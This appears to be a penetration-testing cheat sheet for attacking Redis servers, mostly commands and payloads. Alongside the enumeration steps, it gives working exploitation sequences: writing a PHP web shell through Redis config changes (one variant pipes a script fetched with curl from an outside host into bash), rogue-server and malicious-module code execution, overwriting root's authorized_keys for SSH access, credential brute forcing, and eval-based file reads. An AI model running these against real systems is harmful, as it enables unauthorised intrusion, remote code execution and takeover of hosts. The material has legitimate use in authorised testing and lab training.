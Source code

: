# 6379 (Redis)

## Enumeration

### Automatic

#### nmap

```bash
nmap --script redis-info -sV -p 6379 <IP>
```

#### Metasploit

```bash
msf> use auxiliary/scanner/redis/redis_server
```

### Manual

#### Telnet, Netcat, Redis-cli

```bash
telnet <IP> 6379
nc -vn <IP> 6379
redis-cli -h <IP>
```

Commands:

```bash
# Check version info etc. as well as the ability to run commands without auth
INFO
# List all the stored keys.
KEYS *
# Get the value of a stored key
GET <KEY>
# Other
config get *
config get dir
```

#### Curl Gopher

```
curl gopher://demo1.ine.local:6379/_GET%20flag --max-time 1
```

#### LFI

If LFI is found, you can enumerate the local file system for interesting files

```bash
# Look at the redis configuration file (check for passwords)
/etc/redis/redis.conf
# Look for the web DocumentRoot in the conf file
/etc/apache2/sites-enabled/000-default.conf  # Ex: apache2
# Look at the redis service file (check for ReadWriteDirectories)
/etc/systemd/system/redis.service
```

Attempt to write a file to a directory that is found in the web root or is listed as ReadWriteDirectories

## Exploitation

### PHP Web Shell

```bash
redis-cli -h <IP> -a <PASSWORD>
192.168.97.166:6379> config set dir /opt/redis-files
OK
192.168.97.166:6379> config set dbfilename rce.php
OK
192.168.97.166:6379> set test "<?php phpinfo(); ?>"  # or
192.168.97.166:6379> set test "<?php system('id'); ?>"  # or
192.168.97.166:6379> set test "<?php system('curl 192.168.49.97/shell.sh | bash'); ?>"
OK
192.168.97.166:6379> save
OK
```

### Rogue Server

[https://github.com/n0b0dyCN/redis-rogue-server](https://github.com/n0b0dyCN/redis-rogue-server)

```bash
git clone https://github.com/n0b0dyCN/redis-rogue-server
cd redis-rogue-server/
./redis-rogue-server.py --rhost 192.168.76.69 --lhost 127.0.0.1
# or
python3 redis-rogue-server.py --rhost 192.168.76.69 --rport 6379 --lhost 192.168.49.76 --lport 6379

```

### Load Redis Module

> Need a way to place files (modules) onto the machine i.e. FTP

[https://github.com/n0b0dyCN/RedisModules-ExecuteCommand](https://github.com/n0b0dyCN/RedisModules-ExecuteCommand)

```bash
git clone https://github.com/n0b0dyCN/RedisModules-ExecuteCommand
cd RedisModules-ExecuteCommand
make  # Creates the module.so file
ftp <IP>
put module.so  # Place the module in a writable directory
# Identify ftp directory location e.g. vsFTPd = /var/ftp/
redis-cli -h <IP>
127.0.0.1:6379> MODULE LOAD /var/ftp/pub/module.so
127.0.0.1:6379> system.exec "id"
```

### Unauthenticated Redis Server

#### Metasploit

```bash
msfconsole
search redis
use exploit/linux/redis/redis_replication_cmd_exec
set RHOSTS <IP>
set LHOST <IP>
set SRVHOST <IP>
exploit
```

### Overwriting Arbitrary Files

#### Redis-cli

```bash
# Generate Key Pair
ssh-keygen
ssh-key
<enter>
<enter>
# Copy key file and place onto Redis server naming it test
# Ex: 1
(echo -e "\n\n"; cat /root/ssh-key.pub; echo -e "\n\n") > key
cat key | redis-cli -h demo2.ine.local -x set test
# Ex: 2
(echo -e "\n\n"; cat ./id_rsa.pub; echo -e "\n\n") > spaced_key.txt
cat spaced_key.txt | redis-cli -h <IP> -x set ssh_key
cat spaced_key.txt | redis-cli -h 192.168.97.166 -a <password> -x set ssh_key
# Dump the key to the target machine /root/.ssh/ directory using redis-cli
redis-cli -h demo2.ine.local
config set dir /root/.ssh/
config get dir
config set dbfilename "authorized_keys"
save
# We have successfully uploaded the public key as authorized_keys.
# Access the target machine
ssh -i ssh-key root@demo2.ine.local
```

#### Metasploit

```bash
use auxiliary/scanner/redis/file_upload
set RHOSTS demo2.ine.local
set LocalFile /root/key
set RemoteFile /root/.ssh/authorized_keys
exploit
```

### Attacking Protected Redis

#### Metasploit

```bash
use auxiliary/scanner/redis/redis_login
set RHOSTS demo3.ine.local
exploit
# We found a credential
redis-cli -h demo3.ine.local
AUTH daniel
KEYS *
GET <KEY>
```

### Eval Abuse

> CTF Ex: Doing some research it is found that abuse of the eval and dotfile can be used

```bash
# Get the contents of the user.txt file
redis-cli -h <IP> -p 6379 eval "dofile('C:\\\Users\\\enterprise-security\\\Desktop\\\user.txt')" 0

```

## Brute Force

```bash
msf> use auxiliary/scanner/redis/redis_login
nmap --script redis-brute -p 6379 <IP>
hydra –P /path/pass.txt redis://<IP>:<PORT>  # 6379 is the default
```

